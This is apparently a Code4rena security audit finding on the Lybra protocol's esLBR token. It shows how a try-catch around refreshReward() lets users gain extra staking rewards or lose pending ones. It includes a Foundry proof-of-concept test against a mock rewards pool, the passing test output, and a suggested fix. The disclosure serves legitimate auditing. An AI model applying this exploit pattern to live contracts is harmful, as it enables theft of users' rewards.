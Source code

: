 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-06

# [Allowing `refreshReward()` to fail during minting or buring esLBR could result in gain or loss previously earned reward](https://github.com/code-423n4/2023-06-lybra-findings/issues/794) 

# Lines of code

https://github.com/code-423n4/2023-06-lybra/blob/7b73ef2fbb542b569e182d9abf79be643ca883ee/contracts/lybra/token/esLBR.sol#L33
https://github.com/code-423n4/2023-06-lybra/blob/7b73ef2fbb542b569e182d9abf79be643ca883ee/contracts/lybra/token/esLBR.sol#L40


# Vulnerability details

## Impact
The `esLBR` balance of users plays the most important role in staking reward calculation. Using a try-catch statement over `refreshReward()` in the `esLBR.mint()` and `esLBR.burn()` functions can have the following effects when `refreshReward()` become unavailable:
* Users can mint more `esLBR`, then manually call `refreshReward()` afterward for the contract to record the earned reward with the increased `esLBR` balance of the users. This results in users receiving more rewards than they should.
* Users can be back run by a searcher or someone else calling `refreshReward(victim)` for the contract to record the earned reward with the decreased `esLBR` balance of the users. This results in users losing some of their rightful pending rewards that have not yet been recorded to the latest timestamp.

## Proof of Concept
The following is the coded PoC using [Foundry](https://github.com/foundry-rs/foundry).

**Note:** This PoC creates a mock reward contract. It has the same logic as the real one, but with added setter functions that serve only to simplify the test flow.
```solidity
File: test/esLBR.t.sol

// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import "contract/lybra/configuration/LybraConfigurator.sol";
import "contract/lybra/governance/GovernanceTimelock.sol";
import {esLBR} from "contract/lybra/token/esLBR.sol";

contract C4esLBRTest is Test {
    Configurator configurator;
    GovernanceTimelock govTimelock;
    mockProtocolRewardsPool rewardsPool;
    esLBR eslbr;

    address exploiter = address(0xfff);
    address victim = address(0xeee);

    function setUp() public {
        govTimelock = new GovernanceTimelock(0, new address[](0), new address[](0), address(0));
        configurator = new Configurator(address(govTimelock), address(0));
        rewardsPool = new mockProtocolRewardsPool();
        eslbr = new esLBR(address(configurator));

        rewardsPool.setTokenAddress(address(eslbr));

        address[] memory minter = new address[](1);
        minter[0] = address(this);
        bool[] memory minterBool = new bool[](1);
        minterBool[0] = true;
        configurator.setTokenMiner(minter, minterBool); // set this contract as the esLBR minter
        configurator.setProtocolRewardsPool(address(rewardsPool));

        eslbr.mint(exploiter, 100 ether);
        eslbr.mint(victim, 100 ether);
        rewardsPool.setRewardPerTokenStored(1);
    }

    function testMintFailRefreshReward() public {
        assertEq(eslbr.balanceOf(exploiter), eslbr.balanceOf(victim), "Should start with equal esLBR balance");
        assertEq(rewardsPool.earned(exploiter), rewardsPool.earned(victim), "Should start with equal rewards accrued");

        rewardsPool.setRewardPerTokenStored(2);

        eslbr.mint(victim, 100 ether); // refreshReward should pass
        rewardsPool.forceRevert(true); // Assume something occur, causing the refreshReward become unavailable
        eslbr.mint(exploiter, 100 ether);

        // Record earning rewards to latest rate
        rewardsPool.forceRevert(false);
        rewardsPool.refreshReward(exploiter);
        rewardsPool.refreshReward(victim);

        assertGt(rewardsPool.earned(exploiter), rewardsPool.earned(victim), "Exploiter should have more reward by this flaw");
    }

    function testBurnFailRefreshReward() public {
        assertEq(eslbr.balanceOf(exploiter), eslbr.balanceOf(victim), "Should start with equal esLBR balance");
        assertEq(rewardsPool.earned(exploiter), rewardsPool.earned(victim), "Should start with equal rewards accrued");

        rewardsPool.forceRevert(true); // Assume something occur, causing the refreshReward become unavailable
        eslbr.burn(victim, 100 ether); // The victim unstake during that time

        // Record earning rewards to latest rate
        rewardsPool.forceRevert(false);
        rewardsPool.refreshReward(exploiter);
        rewardsPool.refreshReward(victim);

        assertGt(rewardsPool.earned(exploiter), rewardsPool.earned(victim), "Victim should loss earned rewards by this flaw");
    }
}

contract mockProtocolRewardsPool {
    esLBR public eslbr;

    // Sum of (reward ratio * dt * 1e18 / total supply)
    uint public rewardPerTokenStored;
    // User address => rewardPerTokenStored
    mapping(address => uint) public userRewardPerTokenPaid;
    // User address => rewards to be claimed
    mapping(address => uint) public rewards;

    bool isForceRevert; // for mockup reverting on refreshreward

    function setTokenAddress(address _eslbr) external {
        eslbr = esLBR(_eslbr);
    }

    // User address => esLBR balance
    function stakedOf(address staker) internal view returns (uint256) {
        return eslbr.balanceOf(staker);
    }

    function earned(address _account) public view returns (uint) {
        return ((stakedOf(_account) * (rewardPerTokenStored - userRewardPerTokenPaid[_account])) / 1e18) + rewards[_account];
    }

    /**
     * @dev Call this function when deposit or withdraw ETH on Lybra and update the status of corresponding user.
     */
    modifier updateReward(address account) {
        if (isForceRevert) revert();
        rewards[account] = earned(account);
        userRewardPerTokenPaid[account] = rewardPerTokenStored;
        _;
    }

    function refreshReward(address _account) external updateReward(_account) {}

    function forceRevert(bool _isForce) external {
        isForceRevert = _isForce;
    }

    function setRewardPerTokenStored(uint value) external {
        rewardPerTokenStored = value;
    }
}
```

The test should pass without errors.
```shell
Running 2 tests for test/esLBR.t.sol:C4esLBRTest
[PASS] testBurnFailRefreshReward() (gas: 141678)
[PASS] testMintFailRefreshReward() (gas: 188308)
Test result: ok. 2 passed; 0 failed; finished in 2.50ms
```

Please follow this [gist](https://gist.github.com/t-nero/e97d8b9c7c5067b1638fe2b929b45456) if you prefer my instruction on how I setup the contest repo with Foundry environment.

## Tools Used
* Manual review
* Foundry

## Recommended Mitigation Steps
The `refreshReward()` function should be a mandatory action inside either the `mint()` or `burn()` functions. The try-catch statement should be removed.


## Assessed type

Other